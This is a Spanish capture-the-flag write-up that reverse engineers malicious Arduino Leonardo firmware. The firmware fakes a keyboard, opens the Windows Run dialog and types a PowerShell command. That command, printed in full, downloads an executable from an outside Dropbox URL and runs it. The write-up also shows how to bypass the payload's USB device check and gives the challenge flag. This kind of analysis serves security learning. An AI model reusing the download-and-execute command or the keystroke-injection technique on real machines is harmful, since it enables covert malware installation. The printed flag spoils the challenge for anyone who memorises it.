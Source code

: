 # 🦆

Descripción: El otro día me encontré una memoria USB tirada por la calle. Quería saber que contenía pero al enchufarla se empezaron a ver cosas raras. Necesito que averigues que pasó realmente cuando conecté ese USB.

Flag: UAD360{quack_quack!!!!}

## Writeup

Se nos da un fichero .elf con una arquitectura `Atmel AVR 8-bit`. Seguramente sea un firmware de una placa arduino ya que suelen usar ese tipo de microcontroladores. Al ser un elf y no un .hex, mantiene mucha información que va a ser útil en el análisis del programa. Podemos abrirlo con Ghidra para hacerle ingeniería inversa al firmware.

Nos encontramos con una función main(). Después de la incialización que hace el firmware en el main podemos ver que usa la biblioteca [Keyboard](https://www.arduino.cc/reference/en/language/functions/usb/keyboard/).

```
  uStack0000 = 0x70;
  delay(0,1000,R18,R15R14,R13R12,R11R10,R9R8);
  Keyboard[13] = 1;
  Keyboard[12] = 0x21;
  uStack0000 = 0x7b;
  Keyboard_::press('v');
  uStack0000 = 0x80;
  Keyboard_::press('v');
  ....
  Keyboard[4] = R1;
  uStack0000 = 0x92;
  Keyboard_::sendReport((KeyReport *)(Keyboard + 4));
  uStack0000 = 0x98;
  delay(0,200,R18,R15R14,R13R12,R11R10,R9R8);
  R21R20 = 0xa2;
  uStack0000 = 0xa0;
  Keyboard_::write(Keyboard,(uint)s_powershell_"Import-Module_BitsTr_mem_013d);
  uStack0000 = 0xa5;
  Keyboard_::write('v');
  uStack0000 = 0xab;
  delay(0,1000,R18,R15R14,R13R12,R11R10,R9R8);
  uStack0000 = 0xb0;
  Keyboard_::write('v');
  do {
  } while( true );
```
Como podemos ver en la documentación, la función `press()` sirve para mantener pulsada una tecla hasta que se envíe `releaseAll()`. Podemos suponer que se envían dos teclas. Sin embargo, ghidra no nos está mostrando bien el parámetro que se le pasa a la función. Si miramos el ensamblador podemos ver que en realidad, son teclas dintintas. Para los dos primeros `press()`, sería:
```
       code:0a76 63  e8           ldi        R22 ,0x83 // Tecla que se envía
       code:0a77 86  e7           ldi        Wlo ,0x76
       code:0a78 92  e0           ldi        Whi ,0x2
       code:0a79 0e  94  79       call       Keyboard_::press                               
                 05
       code:0a7b 62  e7           ldi        R22 ,0x72 // Tecla que se envía
       code:0a7c 86  e7           ldi        Wlo ,0x76
       code:0a7d 92  e0           ldi        Whi ,0x2
       code:0a7e 0e  94  79       call       Keyboard_::press                              
                 05
```
Por lo tanto, cuando se conecta el arduino, se mandan las teclas 0x83 y 0x72. Podemos ver en la [referencia](https://www.arduino.cc/reference/en/language/functions/usb/keyboard/keyboardmodifiers/) de Arduino qué significa cada tecla.

0x83 equivaldría a la tecla de Windows, y 0x72, a la r. Por tanto, lo que hace es pulsar Windows+r (Menú de ejecutar)

Lo próximo que hace es un `write()` de una cadena larga: 

```
powershell \"Import-Module BitsTransfer; Start-BitsTransfer https://dl.dropboxusercontent.com/s/uzycu5lu9fx257t/Quack.exe %TEMP%qweiuagsd.exe; %TEMP%qweiuagsd.exe\"
```

Este comando va a descargar un fichero .exe y lo va a ejecutar. Procedemos, por tanto a descargar el ejecutable y a analizarlo.

Si lo habrimos con Ghidra y analizamos un poco en binario, podemos encontrar una función interesante (`FUN_00401170(void)`). Esta función va a comprobar el PID (PID_8036) y el VID (VID_2341) de todos los dispositivos USB conectados. En caso de que concuerden se imprimirán una serie de Diálogos en la pantalla. En caso contrario, se imprimirá un diálogo diciendo que no deberíamos estar ejecutando el programa.

```
pwVar3 = wcsstr(_Str,L"PID_8036");
if ((pwVar3 != (wchar_t *)0x0) &&
    (pwVar3 = wcsstr(_Str,L"VID_2341"), pwVar3 != (wchar_t *)0x0)) {
...
}
```

Si buscamos el PID y el VID en internet se confirma que es un Arduino, el concreto, un Arduino Leonardo. Para poder entrar dentro del if prodremos o crear un USB virtual o usar ida para saltarnos la comprobación. En este caso se usará IDA. 

Para ello buscamos la función en ida y podemos un punto de ruptura justo donde se ha a hacer la comparación. En cada una de las dos cambiamos el fulo del programa para que la comparación de correcta. Cuando hayamos pasado todas las comparaciones seguimos el flujo del programa normal. Se nos van a mostrar tres diálogos, siendo el último la flag

`UAD360{quack_quack!!!!}`
